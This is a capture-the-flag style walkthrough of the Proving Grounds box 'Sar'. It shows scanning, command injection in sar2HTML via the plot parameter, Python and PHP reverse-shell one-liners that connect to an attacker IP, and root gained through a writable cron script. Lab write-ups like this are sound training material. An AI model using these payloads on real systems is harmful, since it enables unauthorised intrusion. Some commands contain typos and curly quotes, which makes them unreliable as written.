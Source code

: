 ```yaml
---
layout: posts
author_profile: false
title: Sar Walkthrough
---
```

### A step-by-step walkthrough of the box **"Sar"** exploiting sar2HTML via Remote Code Execution (RCE)
- **Box Host:** Offensive Security Proving Grounds
- **Difficulty Rating:** Easy
- **Starting Location:** Kali VM in the same subnet

- - - 
*Note 1: The IP addresses, URLs, and flags used in this demonstration were specific to the environment at the time of the exploit and will likely be different when another attempt at this box is made.*

*Note 2: There is almost always more than one way to expoit a box (TIMTOWTDI). The demonstration and tools shown here are probablyy not the only method you can use.*
- - -

### Step 1: Network Scanning
Perform a stealth scan of the entire subnet to identify target machine
```
nmap -sS [ip range]
```

- identify open ports
- open ip address in browser
  * shows default Apache page

- - -

### Step 2: Directory Brute Force
Perform a directory brute force with the tool of your choice
```
gobuster dir -u [url] -w [path to wordlist]
```
- identifies robot.txt
- Download the file with *curl* and inspect
```
curl [url]/robots.txt
```
```
cat robots.txt
```
  - text file says **sar2HTML**
  * try running in browser: http://ipaddress/sar2HTML/
  * shows that it is a tool running on the server

- - -

### Step 3: Research sar2HTML for vulnerabilities
Research to find **sar2HTML** exploit
- Exploit-DB shows Sar2HTML 3.2.1 has an RCE (no CVE)
- Exploit = *http:192.168.1.24/sar2HTML/index.php?plot=;your-command*
- Example:

```
http:192.168.1.24/sar2HTML/index.php?plot=; cat /etc/passwd
```

- - - 

### Step 4: Setup a Reverse Shell
Run a basic Python command to see if it is installed

```
python3 --help
```

- The output provided shows this is a success and python3 is installed

Setup a netcat listener in your terminal:
```
nc -lvp 1234
```

- Run a python3 script to connect to a reverse shell:

```
python3 -c ‘import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“192.168.1.20”,1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([“/bin/sh”,”-i”]);
```

- Successfully connected:

- Setup a stable shell (optional):

```
python3 -c ‘import pty;pty.spawn(“/bin/bash”)’
```

- **user flag can be found here** (/home/love/Desktop/user.txt)

- - -

### step 5 (final): Gain Root
  - Find exploits based on OS and kernel versions
    - no luck
  - Check weak file permission and processes
    - Found a **cron job** is being run as a root user
      - > cat /etc/crontab
    - Cron job = ***/5 * * * * root cd /var/www/html/ && sudo ./finally.sh**
    - Navigate to /var/www/html/ and see what is there
      - finally.sh is calling write.sh
      - write.sh is create a folder in temp directory
      - the command **ls -l** shows we can edit write.sh
      - Add a php reverse connection command into write.sh

```
php -r ‘$sock=fsockopen(“192.168.1.20”,4444);exec(“/bin/sh -i <&3 >&3 2>&3”);’
```
  * IP address = attacker machine (mine)
  * Setup listener **nc -lvp 4444**
  * Wait 5 mins for cron job
  - **root flag: cat /root/root.txt**

### Echo the php script into the write.sh file
```
echo "php -r '\$sock=fsockopen(\"192.168.57.200\",4444);exec(\"/bin/sh -i <&3 >&3 2>&3\");'"
```
- echo requires a \ in front of a $ and " (probably more)




